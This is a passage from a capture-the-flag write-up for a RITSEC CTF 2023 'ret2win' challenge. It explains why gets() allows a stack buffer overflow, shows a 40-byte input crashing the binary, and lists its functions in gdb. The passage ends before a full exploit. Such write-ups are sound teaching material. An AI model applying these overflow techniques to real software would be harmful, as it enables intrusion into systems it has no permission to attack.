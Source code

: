In `+24`, **it'll call a function called `gets()`.**

> The C library function **`char *gets(char *str)`** reads a line from stdin and stores it into the string pointed to by str. It stops when either the newline character is read or when the end-of-file is reached, whichever comes first.

However, **this function is very, very dangerous, and must not be used**.

According to the [man](https://linux.die.net/man/3/gets) page, it said:

> Never use **gets**(). Because it is impossible to tell without knowing the data in advance how many characters **gets**() will read, and because **gets**() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use **fgets**() instead.

With that said, we can do the basic **stack buffer overflow**!

**In `+29` and `+33`, we see:**
```asm
lea    rax,[rbp-0x20]
mov    rsi,rax
```

The `gets()` function takes 32 bytes (`0x20`) to the stack.

**If the input goes over 32 bytes, it'll overflow!**
```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win)-[2023.04.01|20:28:53(HKT)]
└> python3 -c "print('A' * 32 + 'B' * 8)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win)-[2023.04.01|20:29:04(HKT)]
└> ./ret2win 
Are you expert at exploit development, join the world leading cybersecurity company, Republic of Potatoes(ROP)
[*] This is a simple pwn challenge...get to the secret function!!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
[*] Good start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB, now do some damage :) 
[1]    258704 segmentation fault  ./ret2win
```

We have a **segmentation fault**, which can confirm it's vulnerable to stack buffer overflow.

Next, we need to find a function that can gain benefits to us!

**When you double Tab the `disassemble` command in `gdb`, it'll show all functions:**
```shell
gef➤  disassemble 
-function                    __libc_csu_init              printf
-label                       _dl_relocate_static_pie      printf@plt
-line                        _fini                        puts
-probe                       _init                        puts@plt
-probe-dtrace                _start                       register_tm_clones
-probe-stap                  deregister_tm_clones         supersecrettoplevelfunction
-qualified                   frame_dummy                  system
-source                      gets                         system@plt
__do_global_dtors_aux        gets@plt                     user_input
__libc_csu_fini              main                         
```
